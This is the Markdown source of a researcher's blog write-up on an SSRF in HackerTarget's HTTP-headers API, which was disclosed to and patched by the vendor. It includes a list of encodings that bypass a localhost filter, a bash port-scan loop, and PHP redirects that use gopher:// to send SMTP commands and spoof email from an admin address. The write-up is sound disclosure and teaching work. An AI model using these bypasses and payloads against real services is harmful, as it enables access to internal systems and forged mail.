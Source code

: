 ```yaml
---
layout: post
title: "Hacking the Hackers: Leveraging an SSRF in HackerTarget"
author: Corben Leo
---
```

### &#128187;&nbsp;Introduction:
This is a write-up of an SSRF I accidentally found in HackerTarget and leveraged to get access to internal services! Please **note** that they **don't** have an active bug bounty program.<br>
<h4>&#129300; What is HackerTarget?</h4>
<a href="https://hackertarget.com" class="link">HackerTarget</a> is a service that provides access to online vulnerability scanners and tools used by many security professionals and "makes securing your systems easier". They also are the creators of <a href="https://dnsdumpster.com/" class="link">DNSDumpster</a>, which is utilized in several recon tools.
<br><br>
<h4>&#128565; SSRF:</h4>
Server-Side Request Forgery (SSRF) is a vulnerability in which an attacker can send a controlled, crafted request via a vulnerable application. We can communicate with different services running on different protocols by utilizing URI schemes such as `gopher://`,`dict://`, `ftp://`, etc. Getting a server to issue a request **is not** a vulnerability in itself, but it 
 becomes one when you can make requests to things you wouldn’t or shouldn’t normally have access to, such as internal networks or internal services.<br><br>
### &#128270;&nbsp;Finding the vulnerability:
I was using DNSDumpster for recon during a bug hunting session, and I noticed there was a button of a globe similar to &#127758; that said "Get HTTP Headers":
<br>
<br>
![HT-HTTPHeaders](/images/ht-httpheaders.png "HTTP Headers function")
<br><br>
It made a call to `https://api.hackertarget.com/httpheaders/?q=<target>` and displayed the HTTP Headers of a simple **GET** request sent to the target server.
<br><br>
![HT-API-Call](/images/api-result.png "HackerTarget")
<br><br>I was obviously intrigued, so I tried querying 127.0.0.1! The API dumped the HTTP request and the query went through! I then tried to see if I could get the SSH version by querying **127.0.0.1:22**
<br><br>Response:<br><br>
![HT-SSH](/images/ht-ssh.png "HackerTarget")
<br><br>
I initially reported it as is, knowing I could hit internal services if there were any. They thanked me for the heads up and told me to check the patch they issued. I checked it, and it was easy to bypass: it was merely blocking 127.0.0.1. Here are a few of the bypasses I used:
```
0
127.00.1
127.0.01
0.00.0
0.0.00
127.1.0.1
127.10.1
127.1.01
0177.1
0177.0001.0001
0x0.0x0.0x0.0x0
0000.0000.0000.0000
0x7f.0x0.0x0.0x1
0177.0000.0000.0001
0177.0001.0000..0001
0x7f.0x1.0x0.0x1
0x7f.0x1.0x1
localtest.me
```
I informed them that there **isn't** a way to validate the query just by using string-based checks, so I suggested that they **resolve** the domains and **check** them against local IP ranges. They agreed and said they would think about it.
<br><br>
About 10 days later I asked if they had issued another patch or not, and the response was:
> "It is on my todo list. Not critical though as there are no local services that could be hit with it."

<center>
<h4>&#128527;&nbsp;challenge accepted.</h4>
</center>
<br>

### &#128526;&nbsp;Leveraging like a Boss
I decided to write a bash script that queried the API with one of the bypasses and with a port number to see if I could see what internal services it was running:
```bash
#!/usr/bin/env bash
for port in `seq 1 9999`
do
	echo -e "\n\n[+] Checking Port: "$port"\n"
	curl 'https://api.hackertarget.com/httpheaders/?q=http://'$1':'$port && echo -e "\n"
done
```
I ran it: `âžœ root@pwn  ~  ./ht 0177.1`

HackerTarget limits 25 API queries per IP, so my script only showed the ports 1 - 25. The only responses I got were from SSH running on port 22 and I luckily got a response from the SMTP server on port 25, which I had totally overlooked before!<br><br>
![HT-POSTFIX](/images/ht-postfix.png "HackerTarget")
<br>
#### &#128104;&zwj;&#128187; &nbsp;SMTP?
 - SMTP stands for <font id="highlighter">Simple Mail Transfer Protocol</font>.
 - It is a <a href="https://en.wikipedia.org/wiki/Internet_protocol_suite" rel="noopener noreferrer" target="_blank"><font id="highlighter">TCP/IP</font></a> protocol that's used for sending emails. (who would've guessed? &#128514;)
 - Usually it's used along with either <a target="_blank" rel="noopener noreferrer" href="https://en.wikipedia.org/wiki/Post_Office_Protocol"><font id="highlighter">pop3</font></a> or<a target="_blank" rel="noopener noreferrer" href="https://en.wikipedia.org/wiki/Internet_Message_Access_Protocol"> <font id="highlighter">imap</font></a>, which are used to receive emails.


I knew I would be able to hit the service with this SSRF, but I wasn't positive that I would be able to send the valid commands needed to send emails from it. I then tried deducing which wrappers were supported and enabled besides **http://** and **https://**. <br><br>
I tried using <font id="highlighter2">dict://</font> right away and was able to get the libcurl version, but that wasn't very helpful. Next, I created a PHP file on my server to initiate a redirect to another port with the <font id="highlighter2">gopher://</font> wrapper:<br>
```php
<?php
header("Location: gopher://<server>:1337/_SSRF%0ATest!");
?>
```
<br>
In a nutshell, the gopher:// protocol sends 1 character, a new line (CR+LF), and the remaining data, which allows us to send a **multiline request**. <br><br>
I started netcat and checked the API again: `https://api.hackertarget.com/httpheaders/?q=http://<server>/redirect.php`. It followed the redirect  and I received a multiline request on port 1337!
<br><br>This means I could send valid commands to the internal SMTP server!

### &#127881;&nbsp;The Finale
I created another PHP file on my server that would redirect the API to the internal SMTP server and issue the valid SMTP commands!
```php
<?php
        $commands = array(
                'HELO hackertarget.com',
                'MAIL FROM: <admin@hackertarget.com>',
                'RCPT To: <C0RB3N@oou.us>',
                'DATA',
                'Subject: @C0RB3N!',
                'Corben was here, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
```
<br><br>
I changed the query one last time: `https://api.hackertarget.com/httpheaders/?q=http://<server>/smtp.php`
<br><br>
I went to my email, reloaded it once.
<br><br>
A new email popped up from "<font id="highlighter">admin@hackertarget.com</font>" with the subject "<font id="highlighter">@C0RB3N</font>" and the message was "<font id="highlighter2">Corben was here, woot woot!</font>"
<br><br>
After yelling 'heck yeah!', I created a quick proof-of-concept video and I sent it over to HackerTarget.
<br> <br>Here's the video <font color="#2EB03D">&#128373;&#65039;</font><br>
<iframe width="580" height="370" src="https://www.youtube.com/embed/F_sC_OrSkIc" frameborder="0" gesture="media" allow="encrypted-media" allowfullscreen></iframe>
<br><br>The response?
> Nice work. Thanks for the PoC. I will finish mitigation on this and check other inputs too now.... you have opened my eyes to SSRF :)


<br><br>
It was a blast to leverage an SSRF on a target that everyone knows of and uses often!<br><br>

### &#9888;&#65039;&nbsp;Note:
They **DO NOT** have a bug bounty program, so please **DO NOT** test them without their permission!
<br><br>
Thanks for reading,<br><br>
**Corben Leo**
- <a class="link" href="https://twitter.com/hacker_"  target="_blank" rel="noopener noreferrer">https://twitter.com/hacker_</a>
- <a class="link" href="https://hackerone.com/cdl" target="_blank" rel="noopener noreferrer">https://hackerone.com/cdl</a>
- <a class="link" href="https://bugcrowd.com/c" target="_blank" rel="noopener noreferrer">https://bugcrowd.com/c</a>
- <a class="link" href="https://github.com/lc"  target="_blank" rel="noopener noreferrer">https://github.com/lc</a>
